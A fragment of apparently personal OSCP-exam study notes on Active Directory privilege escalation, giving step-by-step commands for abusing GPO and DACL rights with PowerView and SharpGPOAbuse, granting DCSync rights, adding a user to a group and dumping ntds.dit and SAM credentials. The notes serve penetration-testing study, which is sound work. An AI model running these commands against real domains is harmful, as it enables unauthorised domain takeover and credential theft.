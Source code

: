 ```bash
		`samraddmembertogroup <group_hex> <user_hex>`
	
```


## DACL / GPO Abuse
See [here](obsidian://open?vault=Obsidian%20Vault&file=OSCP%20Prep%2FMethodology%20Notes%2FGPO%20Abuse)

I also have the info here

IF we have DACL rights, we can modify the GPO. The easiest way is via the following:
```bash
# Windows

1. Upload PowerView.ps1 and it

	Import-Module .\PowerView.ps1
	.\PowerView.ps1

2. Get the Default Domain Polify (or whatever you are able to control)

	Get-GPO -Name "Default Domain Policy"

3. View Perms (bloodhound might have already tipped you that you can control it)

	Get-GPPermission -Guid <ID> -TargetType User -TargetName <user>

4. SharoGPOAbuse.exe to modify our perms to admin

	.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount <user> --GPOName "Default Domain Policy"

5. Force update

	gpupdate /force

6. Restart connection to box

	you are now admin


___________________________________________________

# Linux (not preferable...)

pyGPOabuse.py


___________________________________________________
# Another way

Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity <user> -Rights DCSync
	# then just use secrets dump to dump ntds.dit and or SAM
```
There are other methods.
